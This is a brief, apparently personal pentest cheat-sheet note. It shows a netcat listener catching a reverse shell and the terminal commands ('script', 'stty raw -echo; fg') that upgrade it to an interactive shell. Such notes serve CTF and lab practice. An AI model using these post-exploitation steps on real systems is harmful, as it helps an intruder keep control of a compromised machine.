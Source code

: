 ## Interactive Shell without Python, socat

After `nc -lvnp 4231`: we got a shell 
Up non interactive shell to interactive shell (no python, no socat running on machine)

/usr/bin/script -qc /bin/bash /dev/null
Ctr-Z
stty raw -echo; fg; reset
